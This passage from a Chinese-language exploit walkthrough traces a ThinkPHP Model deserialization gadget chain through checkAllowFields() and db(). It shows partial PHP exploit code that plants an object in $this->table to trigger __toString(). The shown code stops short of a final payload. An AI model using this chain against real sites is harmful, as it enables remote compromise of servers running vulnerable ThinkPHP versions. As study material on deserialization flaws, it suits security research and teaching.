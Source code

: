 ```php
            $this->force = true;

        }

    }

}
```

#### 5）跟进checkAllowFields方法

在checkAllowFields方法体中，我们目的是要进入db()方法。那么就要` $this->field=[]`，`$this->schema=[] `，查看类的成员变量默认值，它们两个属性默认就是空的，所以我们不用管，程序自然会进入else里的`$this->db()`方法。

#### 6）跟进db方法

在db方法体中，出现了`$this->name` 和`$this->suffix`字符串的拼接，还有`$this->table`和`$this->suffix`字符串拼接。那么这里我们就可以思考一下，如果让`$this->table`作为一个对象，和字符串拼接，肯定会触发`__toString()`魔术方法。

那我们假定`$this->table`的值是一个对象，继续完善exploit：

```php
<?php

namespace think{

    abstract class Model{

        private $lazySave = false;

        private $data = [];

        protected $withEvent = true;

        private $exists = false;

        private $force = false;

        protected $table;

        function __construct($obj='')

        {

            $this->lazySave = true;

            $this->data = ['xxx'];

            $this->withEvent = false;

            $this->exists = true;

            $this->force = true;

            $this->table = $obj;

        }

    }

}
```
